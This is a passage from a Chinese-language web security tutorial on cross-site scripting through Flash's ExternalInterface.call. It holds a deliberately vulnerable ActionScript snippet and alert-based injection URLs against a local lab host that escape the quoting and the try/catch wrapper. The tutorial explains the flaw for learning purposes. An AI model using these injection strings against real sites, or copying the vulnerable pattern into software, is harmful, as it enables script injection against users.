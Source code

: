 访问 `http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//`  
![flash4](../pictures/flash4.png)  

和预期结果一样。  

### Flash缺陷参数-ExternalInterface.call(参数二)  
有时候当反编译swf 之后，会发现可控的参数的输出位置在ExternalInterface.call 函数的第二个参数，方法和思路与第一个参数的时候类似。  
Flash文件：  
``` actionScript
var a:String = root.loaderInfo.parameters.par
if(ExternalInterface.available){
    ExternalInterface.call("alert",a)
} else {
    trace(100)
}
stop()
```
Flash文件中的a是从外部获取的参数，此处外部获取的参数par 赋值给了a，作为输出点输出到了ExternalInterface的第二个参数的位置，此处相对于第一个参数的不同之处是，此处的输出点在引号中，因此此处我们需要把引号闭合掉。闭合引号使用的方法是`\"` 这样会被转义为 `\\"`，这样就可以闭合引号。  
根据ExternalInterface.call 的调用原型：  
`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`  
我们将参数输入如下的url：  
`http://192.168.4.70/ExternalInterface_second.swf?par=1111\%22),al)}catch(e){alert(1000)}//`  

分析应该执行如下：  
``` actionScript
try{
  __Flash__toXML(alert("1111\\"),al
}
catch(e){
  alert(1000)
}
```
如此下来应该就会弹出两个框，一个为`1111\`，另外一个为1000。 运行结果，弹出`1111\`： 
![flash5](../pictures/flash5.png)  
点击确定，弹出1000：  